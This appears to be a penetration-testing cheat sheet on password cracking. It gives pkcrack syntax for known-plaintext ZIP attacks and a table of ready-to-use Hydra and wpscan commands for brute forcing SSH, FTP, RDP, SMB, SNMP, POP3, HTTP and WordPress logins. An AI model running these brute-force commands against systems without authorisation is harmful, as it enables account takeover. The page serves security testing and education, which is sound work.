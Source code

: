 # Password Cracking

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Headings:

This page was getting to be long, so here are shortcuts to the major sections.  I broke these out into separate pages for better organization and searchability.

* [Getting the hashes](gathering-the-hashes.md)
* [Wordlist manipulation](wordlist-manipulation.md)
* [Cracking the Hashes](cracking-the-hashes.md)

Not all methods of discovering passwords involve directly "cracking" hashes.  Brute forcing logins and direct recovery programs are also viable solutions.

## Password Recovery

Password recovery programs: [https://www.passcape.com/products](https://www.passcape.com/products) \(TODO:Test these!\)

### ZIP Password Retrieval \(with Known Plaintext\)

_Download pkcrack_

[https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack/download1.html](https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack/download1.html)

! Before using, it must be built from source

_Syntax_

```bash
./pkcrack -C $encrypted.zip -c file -P $plaintext.zip -p file
```

## Brute forcing logins <a id="hydra"></a>

An amazing index of brute-force commands: [https://book.hacktricks.xyz/brute-force](https://book.hacktricks.xyz/brute-force)

### Hydra

Below are a few scriptable examples to brute force logins of common protocols.

| Command | Description |
| :--- | :--- |
| `hydra -P $pass_list -v $ip snmp -vV` | SNMP: Brute force |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp` | FTP: with known user, using password list |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh` | SSH: using users list, and passwords list |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh` | SSH: with a known password, and a username list |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list` | SSH: with known username on non-standard port |
| `hydra -vV -l $user -P $pass_list -f $ip pop3` | POP3: Brute Force |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page` | HTTP GET: with user list and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip` | Windows Remote Desktop: with known username, and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb` | SMB: brute force with known user, and pass list |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress: brute force an admin login |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` | WordPress: enumerate users |
| `wpscan --url $url -U $user -P $pass_list` | Use wpscan to brute force password with known user |

#### Other useful Hydra options

**`-x min:max:charset` -** Generate passwords from min to max length. Charset can contain `1` for numbers, `a` for lowercase and `A` for uppercase characters.  Any other character that is added is put in the list.   
Example: `1:2:a1%.` The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and periods/dots.

**`-e nsr` -** Do additional checks. `n` for null password, `s` try login as pass, `r` try the reverse login as pass

### crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

[https://mpgn.gitbook.io/crackmapexec/](https://mpgn.gitbook.io/crackmapexec/)

## Resources

* [https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers](https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers)
* [https://github.com/frizb/](https://github.com/frizb/)
* [https://guide.offsecnewbie.com/password-cracking](https://guide.offsecnewbie.com/password-cracking)
* [https://www.hackingarticles.in/abusing-kerberos-using-impacket/](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

